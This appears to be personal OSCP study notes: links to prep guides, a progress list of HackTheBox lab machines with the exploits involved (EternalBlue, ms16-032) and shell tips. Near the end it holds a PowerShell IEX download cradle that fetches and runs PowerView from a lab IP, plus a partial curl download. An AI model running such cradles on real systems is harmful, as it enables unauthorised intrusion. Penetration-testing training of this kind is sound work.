


https://hummus-ful.github.io/oscp/2021/01/26/OSCP_List.html

Need to do hack the box boxes

https://www.netsecfocus.com/oscp/2021/05/06/The_Journey_to_Try_Harder-_TJnull-s_Preparation_Guide_for_PEN-200_PWK_OSCP_2.0.html#section-9-web-application-attacks

  

Bashed - not done 
Bastard - not done drupal
Beep - issue with the ssh
Blue - not eodne eternal blue somtime up
dc-9 - not done vulnhub setup ?
Devel - not done ftp
shocker - done
Optimum- not done ms16-32
squashed - not done
Granny - done

Escape - todo

rlwrap a better way to get nc shell

maleficient tokens

hackthebox enterprise

powershell IEX(New-Object Net.Webclient).downloadstring('http://10.17.36.41:8000/powerview.ps1')

curl http://10.10. -O powerview.ps1
import powerview

